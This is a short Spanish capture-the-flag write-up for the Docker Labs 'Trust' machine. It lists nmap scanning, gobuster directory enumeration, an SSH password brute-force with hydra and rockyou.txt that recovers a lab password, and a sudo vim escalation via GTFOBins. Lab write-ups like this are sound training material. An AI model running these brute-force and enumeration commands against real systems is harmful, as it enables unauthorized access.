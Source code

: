 # Trust

Dificultad: Muy Facil
Tecnicas: Hydra - Gobuster - Sudo -l
Pagina: Docker labs
Estado: Listo

```bash
Lo primero que hacemos es ver q puertos están abiertos 

nmap -p- -—open —min-rate 5000 -vvv -n -Pn 172.18.0.2 -oG allport
```

![image.png](image.png)

```bash
Luego tiramos unos script basicos y buscamos las versiones de los puertos abiertos 

nmap -p22,80 -sCV -oN targeted 172.18.0.2
```

![image.png](image%201.png)

```bash
Vamos a usar gobuster para ver si encontramos dominios o ficheros 

gobuster dir -u 172.18.0.2 -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,php,txt
```

![image.png](image%202.png)

```bash
Encontramos el archivo secreto.php y al abrirlo encontramos un posible usuario -> **Mario**

```

![image.png](image%203.png)

```bash
Implementamos hydra para ver si encontramos la contraseña 

hydra -l mario -P /usr/share/wordlist/rockyou.txt ssh://172.18.0.2
```

![image.png](image%204.png)

```bash
Y encontramos la contraseña -> Chocolate 

Ingresamos mediante ssh con el usuario y contraseña correspondiente 
```

# Subida de Privilegio

```bash

Una vez ingresado como mario, vamos a usar sudo -l para ver si tenemos alguna forma de elevar nuestro privilegio
```

![image.png](image%205.png)

```bash
Vemos que podemos ejecutar el binario vim por lo que nos respaldamos en gtfobins y elevamos nuestro privilegio
```

![image.png](image%206.png)